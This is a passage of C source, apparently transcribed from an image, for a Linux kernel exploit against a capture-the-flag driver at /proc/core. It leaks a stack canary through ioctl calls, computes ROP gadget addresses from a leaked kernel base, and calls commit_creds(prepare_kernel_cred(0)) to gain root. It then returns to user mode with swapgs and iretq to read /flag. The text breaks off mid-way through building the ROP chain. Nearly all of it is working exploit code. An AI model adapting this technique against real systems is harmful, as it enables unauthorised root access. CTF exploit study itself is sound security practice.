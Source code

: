 ```c
	asm(
		"movq %%cs, %0;"
		"movq %%ss, %1;"
		"movq %%rsp, %2;"
		"pushfq;"
		"popq %3;"
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

void creds_restore_stat() {
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
	::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs));
}

void shell() {
        printf("Successfully root\n");
        char buffer[100];
        int in = open("/flag", O_RDONLY,S_IRUSR); 
        int flag = read(in, buffer, 1024);
        write(1, buffer, flag);
        exit(0);
}

int main() {
	prepare_kernel_cred = get_address("prepare_kernel_cred");
	commit_creds = get_address("commit_creds");
	
	unsigned long long text_base 		= (unsigned long long)commit_creds - 0x9c8e0;
	unsigned long long pop_rdi 		= 0xffffffff81000b2f - original_base + text_base;
	unsigned long long mov_rdi_rax_pop_rbx	= 0xffffffff8178e68a - original_base + text_base;
	unsigned long long swapgs_popfq		= 0xffffffff81a012da - original_base + text_base;
	unsigned long long iretq		= 0xffffffff81050ac2 - original_base + text_base;
	save_stat();

	int fd = open("/proc/core", 2);
	if (fd < 0) {
		printf("[-] bad open device\n");
		exit(-1);
	}
	
	char ioctl_res[64];
	ioctl(fd, 0x6677889C, 0x40);
	ioctl(fd, 0x6677889B, ioctl_res);
	unsigned long long canary_val 	= ((unsigned long long *)ioctl_res)[0];
	unsigned long long rbp_val	= ((unsigned long long *)ioctl_res)[1];
	unsigned long long rop_chain[256];
	
	// core_copy_func 的第二个初始化变量 unsigned long long a[10]
	// a[8] = canary;
	int i = 8;
	rop_chain[i ++] = canary_val;
	rop_chain[i ++] = rbp_val;
	rop_chain[i ++] = pop_rdi;
```